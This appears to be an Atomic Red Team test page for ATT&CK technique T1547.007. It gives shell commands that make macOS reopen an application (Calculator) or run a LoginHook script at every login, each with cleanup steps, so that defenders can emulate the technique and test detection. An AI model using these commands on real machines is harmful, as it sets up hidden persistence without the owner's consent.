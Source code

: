 # T1547.007 - Boot or Logon Autostart Execution: Re-opened Applications
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/007)
<blockquote>Adversaries may modify plist files to automatically run an application when a user logs in. When a user logs out or restarts via the macOS Graphical User Interface (GUI), a prompt is provided to the user with a checkbox to "Reopen windows when logging back in".(Citation: Re-Open windows on Mac) When selected, all applications currently open are added to a property list file named <code>com.apple.loginwindow.[UUID].plist</code> within the <code>~/Library/Preferences/ByHost</code> directory.(Citation: Methods of Mac Malware Persistence)(Citation: Wardle Persistence Chapter) Applications listed in this file are automatically reopened upon the user’s next logon.

Adversaries can establish [Persistence](https://attack.mitre.org/tactics/TA0003) by adding a malicious application path to the <code>com.apple.loginwindow.[UUID].plist</code> file to execute payloads when a user logs in.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Copy in loginwindow.plist for Re-Opened Applications](#atomic-test-1---copy-in-loginwindowplist-for-re-opened-applications)

- [Atomic Test #2 - Re-Opened Applications using LoginHook](#atomic-test-2---re-opened-applications-using-loginhook)

- [Atomic Test #3 - Append to existing loginwindow for Re-Opened Applications](#atomic-test-3---append-to-existing-loginwindow-for-re-opened-applications)


<br/>

## Atomic Test #1 - Copy in loginwindow.plist for Re-Opened Applications
Copy in new loginwindow.plist to launch Calculator.

**Supported Platforms:** macOS


**auto_generated_guid:** 5fefd767-ef54-4ac6-84d3-751ab85e8aba





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| calc_plist_path | path to binary plist with entry to open calculator | Path | PathToAtomicsFolder/T1547.007/src/reopen_loginwindow_calc.plist|


#### Attack Commands: Run with `sh`! 


```sh
cp #{calc_plist_path} ~/Library/Preferences/ByHost/com.apple.loginwindow.plist
```

#### Cleanup Commands:
```sh
rm -f ~/Library/Preferences/ByHost/com.apple.loginwindow.plist
```





<br/>
<br/>

## Atomic Test #2 - Re-Opened Applications using LoginHook
Mac Defaults

[Reference](https://developer.apple.com/library/content/documentation/MacOSX/Conceptual/BPSystemStartup/Chapters/CustomLogin.html)

**Supported Platforms:** macOS


**auto_generated_guid:** 5f5b71da-e03f-42e7-ac98-d63f9e0465cb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script | path to script | Path | /path/to/script|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo defaults write com.apple.loginwindow LoginHook #{script}
```

#### Cleanup Commands:
```sh
sudo defaults delete com.apple.loginwindow LoginHook
```





<br/>
<br/>

## Atomic Test #3 - Append to existing loginwindow for Re-Opened Applications
Appends an entry to launch Calculator hidden loginwindow.*.plist for next login.
Note that the change may not result in the added Calculator program launching on next user login.
It may depend on which version of macOS you are running on.

**Supported Platforms:** macOS


**auto_generated_guid:** 766b6c3c-9353-4033-8b7e-38b309fa3a93





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| objc_source_path | path to objective C program | Path | PathToAtomicsFolder/T1547.007/src/append_reopen_loginwindow.m|
| exe_path | path to compiled program | Path | /tmp/t1547007_append_exe|


#### Attack Commands: Run with `sh`! 


```sh
FILE=`find ~/Library/Preferences/ByHost/com.apple.loginwindow.*.plist -type f | head -1`
if [ -z "${FILE}" ] ; then echo "No loginwindow plist file found" && exit 1 ; fi
echo save backup copy to /tmp/
cp ${FILE} /tmp/t1547007_loginwindow-backup.plist
echo before
plutil -p ${FILE}
echo overwriting...
#{exe_path} ${FILE} && echo after && plutil -p ${FILE}
```

#### Cleanup Commands:
```sh
rm -f #{exe_path}
# revert to backup copy
FILE=`find ~/Library/Preferences/ByHost/com.apple.loginwindow.*.plist -type f | head -1`
if [ -z "${FILE}" ] ; then
   exit 0
fi
mv /tmp/t1547007_loginwindow-backup.plist ${FILE}
```



#### Dependencies:  Run with `bash`!
##### Description: compile C program
##### Check Prereq Commands:
```bash
if [ -f "#{exe_path}" ]; then exit 0 ; else exit 1; fi
```
##### Get Prereq Commands:
```bash
cc #{objc_source_path} -o #{exe_path} -framework Cocoa
```




<br/>
